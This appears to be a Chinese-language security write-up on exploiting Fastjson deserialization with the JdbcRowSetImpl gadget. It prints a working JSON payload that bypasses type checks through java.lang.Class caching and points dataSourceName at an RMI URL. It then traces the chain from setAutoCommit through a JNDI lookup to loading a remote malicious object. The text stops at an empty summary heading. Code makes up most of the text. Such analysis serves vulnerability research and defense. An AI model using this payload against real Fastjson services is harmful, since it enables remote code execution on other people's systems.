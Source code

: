 Java Fastjson
<a name="Z7OyT"></a>
### JdbcRowSetImpl
```java
String payload = "{\n" +
    "    \"a\":{\n" +
    "        \"@type\":\"java.lang.Class\",\n" +
    "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
    "    },\n" +
    "    \"b\":{\n" +
    "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
    "        \"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\",\n" +
    "        \"autoCommit\":true\n" +
    "    }\n" +
    "}";
JSON.parse(payload);
```
`payload`中的a对象用来当作缓存绕过，需要关注的是第二个对象<br />注意到其中`"autoCommit":true`，反序列化时，会反射设置属性，调用`com.sun.rowset.JdbcRowSetImpl.setAutoCommit()`
```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        // conn为空才会调用到这里
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }
}
```
跟入`com.sun.rowset.JdbcRowSetImpl.connect()`，触发`lookup`，加载远程恶意对象
```java
protected Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            // conn为空且dataSourceName不为空才会到这里
            InitialContext var1 = new InitialContext();
            // 成功触发JNDI注入
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```
根据lookup到com.sun.jndi.rmi.registry.RegistryContext.lookup()
```java
public Object lookup(Name var1) throws NamingException {
    if (var1.isEmpty()) {
        ......
        return this.decodeObject(var2, var1.getPrefix(1));
    }
}
```
跟入`decodeObject`方法，看到加载了远程`Reference`绑定的恶意对象
```java
Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
return NamingManager.getObjectInstance(var3, var2, this, this.environment);
```
总结：
